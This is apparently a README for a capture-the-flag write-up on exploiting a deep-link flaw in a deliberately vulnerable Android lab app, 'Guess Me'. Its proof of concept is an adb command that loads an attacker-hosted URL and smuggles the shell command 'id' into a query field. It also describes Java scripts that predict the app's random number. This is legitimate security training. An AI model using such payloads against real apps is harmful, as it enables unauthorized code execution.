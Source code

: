 # Writeup for Guess me challenge.

Full Writeup at my blog --> [GuessMe](https://blog.parad0x.vip/blog/2024/09/10/GuessMe.html)
--- 

## Objective
Exploit a Deep Link Vulnerability for Remote Code Execution: 
Your mission is to manipulate the deep link functionality in the "Guess Me" Android application, 
allowing you to execute remote code and gain unauthorized access.

## PoC RCE
First, run the Python script: `python3 server.py`

Once the server is up and running you should send the following payload:
```sh
adb shell am start -a android.intent.category.BROWSABLE \
-n com.mobilehackinglab.guessme/.WebviewActivity \
-d "mhl://mobilehackinglab/?url=http://192.168.0.210/search?Time=\'id\'%26q=mobilehackinglab.com"
```

<img width="300" alt="image" src="https://github.com/user-attachments/assets/3077b079-e291-41d5-bdaa-8fd2886c6d70">


## Bonus 
The `timestamp.sh` script needs to be executable.

### Random + timestamp
This is a very inconsistent way to bypass the Random function.

To run the script first compile the Java code :
`javac -Xlint newGuessRandom.java`

Then run the script:
`java -cp . newGuessRandom.java 2>/dev/nul`

It will take some time to find, but it works! ~~I swear~~

<img width="600" alt="image" src="https://github.com/user-attachments/assets/b27b5aea-048c-452c-8bbf-5b4387733c48">


### Random + binary search
This way is a very consistent way of finding the guess number using a different approach.

To run the script, first compile the java code:
`javac -Xlint newSuperGuessRandom.java`

To run the script:
`java -cp . newSuperGuessRandom.java 2>/dev/null`

<img width="600" alt="image" src="https://github.com/user-attachments/assets/e4d1759e-c109-443c-8630-e7d4a611e5a2">

## Conclusion

On my blog, I'll cover all the steps, what worked and what didn't, why I created two ways to bypass the random number generator.
Why it's possible to get an RCE and run an alert on this vulnerable application.
